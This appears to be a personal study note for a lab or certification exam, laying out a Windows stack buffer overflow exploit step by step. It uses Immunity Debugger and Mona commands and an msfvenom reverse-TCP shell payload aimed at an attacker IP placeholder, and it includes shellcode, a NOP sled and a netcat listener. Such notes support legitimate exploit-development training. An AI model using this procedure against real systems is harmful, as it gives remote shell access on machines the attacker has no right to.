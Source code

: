 #### Pre-Configuration

1. Configure the working space inside Immunity Debugger for the Mona plugin:

```
!mona config -set workingfolder c:\mona\%p
```

2. Open the target binary in Immunity Debugger and run it.

---

#### 1. Find Crashing Point

Run [[fuzzer.py]], take a note of the largest number of bytes that were sent (`CRASHBYTES`).

---

#### 2. Create Cyclic Pattern

With a `SIZE` of `CRASHBYTES` + 400 :

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [SIZE]
```

1. Paste the generated payload into [[exploit.py]] .
2. Restart the binary in Immunity Debugger, run `exploit.py` and calculate the offset using Mona:

```
!mona findmsp -distance [SIZE]
```

5. Set offset in `exploit.py` and `retn` to `BBBB`.

---

#### 3. Detect Bad Chars

1. Restart Immunity Debugger and generate a bytearray using Mona exluding the nullbyte:

```
!mona bytearray -b "\x00"
```

2. Generate an identical string of bad chars using the python script [[badchars.py]] excluding the nullbyte.
3. Update the [[exploit.py]] payload with the generated badchars.
4. Reload the binary in Immunity Debugger and run the modified [[exploit.py]], copy the `ESP` register address (`ESPADDR`) and perform a comparsion between the pre-generated bytearray and the injected payload: 

```
!mona compare -f C:\mona\oscp\bytearray.bin -a [ESPADDR]
```

5. Remember the newly detected `badchars` and generate a new bytearray using Mona. Update the `bytearray.py` and generate a new payload. Repeat the process above until all badchars are detected.

**Notice!*** Byte-chains can be eliminated: 

```
\x00\x01\x02\x03\x04\x23\x24\x3c\x3d\x83\x84\xba\xbb => \x00\x23\x3c\x83\xba
```

---
#### 3.5 Find jump point

1. Search with mona for possible return addresses for the exploit

```
!mona jmp -r esp -cpb "[BADCHARS]"
```

2. choose one pointer from the list of pointers (does not necesserily have to be `jmp esp`)

```
0x625011AF : jmp esp | ...
0x625011BB : jmp esp | ...
...
```

3. add this address as `retn` value in `exploit.py` in `littl-endian` format.

```python
retn = "\xBB\x11\x50\x62"
```

---
#### 4. Generate Payload

1. Using `msfvenom` :

```
msfvenom -p windows/shell_reverse_tcp LHOST=[ATTACKER IP] LPORT=4444 EXITFUNC=thread -b "[BADCHARS]" -f c
```

2. Copy the shellcode into [[exploit.py]] using the following notation:

```python
payload = ("\xfc\xbb\xa1\x8a\x96\xa2\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3"
"\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x5d\x62\x14\xa2\x9d"
"\xf7\x04\x44\x8d\x88\xf2\x54\xe4\x8d\xbf\xd2\x15\xfc\xd0\xb6"
"\x19\x53\xd0\x92\x19\x53\x2e\x1d")
```

---

#### 5. Prepend NOPs

Set the padding inside `exploit.py` to a bunch of `NOP` :

```
padding = "\x90" * 16
```

---

#### 6. Exploit

Start a listener on the attacker machine: `nc -lvp 4444` and execute [[exploit.py]] .